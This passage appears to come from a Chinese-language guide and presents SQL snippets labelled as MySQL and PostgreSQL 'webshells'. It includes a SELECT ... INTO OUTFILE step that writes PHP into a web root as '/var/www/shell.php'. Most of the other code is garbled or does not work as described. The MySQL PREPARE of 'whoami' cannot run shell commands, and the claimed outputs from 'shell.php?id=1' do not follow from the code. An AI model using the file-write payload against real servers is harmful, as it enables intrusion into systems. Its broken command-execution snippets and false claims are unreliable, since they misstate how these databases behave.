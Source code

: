 
#### 2. MySQL WEBSHELL

```plsql
CREATE TABLE `shell` ( `cmd` TEXT NOT NULL )

INSERT INTO `shell` VALUES('whoami');

SET @res = NULL; 
SELECT @res := `cmd` FROM `shell`;
SET @res = `\\\`\\\`\\\` + @res + `\\\`\\\`\\\`;
PREPARE x FROM @res; 
EXECUTE x;
DEALLOCATE PREPARE x;
SELECT @res;

访问`http://xxx.com/shell.php?id=1`,返回MySQL用户名。


- 使用USER变量执行命令:
SET @MYSQLUSER=USER();   
SET @res='';
SELECT @res:=@MYSQLUSER;
SET @cmd=CONCAT('whoami;');
PREPARE stmt FROM @cmd;
EXECUTE stmt;
SELECT @res;  


- 使用SELECT ... INTO OUTFILE写入WEBSHELL文件
SELECT '<?php phpinfo(); ?>'  INTO OUTFILE '/var/www/shell.php' 
```





#### 3. PostgreSQL WEBSHELL

```plsql
CREATE TABLE cmd(input text); 
INSERT INTO cmd VALUES('whoami');

CREATE or REPLACE FUNCTION sys_eval(IN sql text) RETURNS text AS 
$$ 
DECLARE 
  result text;
BEGIN
  EXECUTE sql INTO result;
  RETURN result;
END;
$$ language plpgsql;

SELECT sys_eval((SELECT input FROM cmd));
//访问`http://xxx.com/shell.php?id=1`,返回PostgreSQL用户名。
```
